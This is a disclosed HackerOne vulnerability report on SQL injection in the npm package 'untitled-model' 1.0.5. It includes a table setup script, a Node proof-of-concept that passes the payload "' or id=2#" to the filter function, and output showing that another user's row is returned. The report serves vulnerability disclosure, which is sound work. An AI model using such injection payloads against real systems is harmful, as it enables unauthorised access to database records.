# [untitled-model] sql injection

## Report Details
- **Report ID**: 507222
- **URL**: https://hackerone.com/reports/507222
- **State**: Closed
- **Severity**: high
- **Submitted**: 2019-03-09T20:00:10.397Z
- **Disclosed**: 2019-06-18T07:25:04.644Z

## Reporter
- **Username**: verichains
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report [VULNERABILITY] in [MODULE]
It allows [DESCRIBE THE IMPACT OF THE VULNERABILITY - E.G READ ARBITRARY FILES, READ DATA FROM DATABASE ETC]

# Module

**module name:** untitled-model
**version:** 1.0.5
**npm page:** `https://www.npmjs.com/package/untitled-model`

## Module Description

  Rapid sql query generator extention for [node](http://nodejs.org).
  
  [![NPM Version][npm-image]][npm-url] [![NPM Downloads][downloads-image]][downloads-url]


- [Installation](#installation)
- [Features](#features)
- [Quick Start](#quick-start)
- [Model](#user-model-:)
- [Foreign Key](#foreign-key)
- [Functions](#features)
    - [filter()](#user.filter(callback)-``requires-sql-connection``)
    - [values()](#user.values(['attr'])-``sql-projection``)
    - [all(callback)](#user.all(callback)-``requires-sql-connection``)
    - [update(callback)](#update({})-``returns-model``)
- [model](#user-=--model.get('user'))

## Module Stats

> Replace stats below with numbers from npm’s module page:

8 downloads in the last week
17 downloads in the last month

# Vulnerability

## Vulnerability Description

Multiple sql injections problems due to unescaped input usage.

## Steps To Reproduce:

- install the module `yarn add untitled-model`
- setup db:
```mysql
CREATE TABLE `user` (
  `id` int(11) NOT NULL,
  `firstName` varchar(255) NOT NULL,
  `lastName` varchar(255) NOT NULL,
  `age` int(11) NOT NULL
) ENGINE=InnoDB DEFAULT CHARSET=latin1;
INSERT INTO `user` (`id`, `firstName`, `lastName`, `age`) VALUES
(1, 'Timber', 'Saw', 25),
(2, 'Timber 0', 'Saw', 25);
```

- run the poc script:
```js
var model = require('untitled-model');
model.connection(
	{   
		host: "localhost",
		user: "root",
		password: "",
		database:"test"
	}
);
var User = model.get('user');
//User.all((err,data)=>{
//	console.log(err,data);
//})

(async () => {
	await new Promise((resolve,reject)=>{
		User.filter({'id': 1},function(err,data){
			if(err) throw err;
			console.log('normal query', data);
			resolve();
		});
	});
	await new Promise((resolve,reject)=>{
		User.filter({'id': "' or id=2#"},function(err,data){
			if(err) throw err;
			console.log('sqli query', data);
			resolve();
		});
	});
	process.exit(0);
})()
```

Output:
```js
normal query [ RowDataPacket { id: 1, firstName: 'Timber', lastName: 'Saw', age: 25 } ]
sqli query [ RowDataPacket { id: 2, firstName: 'Timber 0', lastName: 'Saw', age: 25 } ]
```

## Supporting Material/References:

> State all technical information about the stack where the vulnerability was found

MacOS
8.12.0
6.4.1

# Wrap up

- I contacted the maintainer to let them know: [N] 
- I opened an issue in the related repository: [N]

## Impact

Sql injection.

## Attachments
No attachments
